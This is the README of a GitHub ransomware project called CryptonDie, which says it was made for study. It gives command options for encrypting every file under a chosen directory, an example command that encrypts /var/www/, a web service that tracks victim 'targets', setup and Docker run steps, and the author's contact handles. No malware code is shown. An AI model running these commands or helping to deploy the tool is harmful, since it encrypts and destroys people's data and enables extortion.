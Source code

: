 # CryptonDie

<p align="center">
  <h3 align="center">CryptonDie</h3>
  <p align="center">CryptonDie is a ransomware developed for study purposes.</p>

  </p>
</p>

<hr>

### Options

```text
    --key       key used to encrypt and decrypt files, default is random string(recommended)
    --dir       Home directory for the attack, default is /
    --encrypt   Encrypt all files
    --decrypt   Decrypt all files
    --verbose   Active verbose mode, default is False

Example:
    python3 cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose

```

### Web service endpoints

```
GET   - /targets              - list all targets (returns in JSON format)
GET   - /targets/<target_id>  - list one target by id (returns in JSON format)
POST  - /target/<target_id>   - create new target
```

<hr>

## how to run?

### Clonning repository

```
git clone https://github.com/alex14324/cryptondie
```

### Install requirements

```
pip3 install -r requirements.txt
```

### Running web service

```
cd cryptondie/discovery
python3 service_discovery.py
```

### Running in Docker

```bash
docker build -t cryptondie .
docker run -it cryptondie /bin/bash
python cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose
```

### which encryption is implemented?

```text
Advanced Encryption Standard
```

### Contact

```text
[+] Telegram:   @alex14324
[+] Github:     https://github.com/alex14324
[+] Twitter:    https://twitter.com/alex14324
```

<p align="center">
  <p align="center">chaos is order yet undeciphered.</p>
</p>
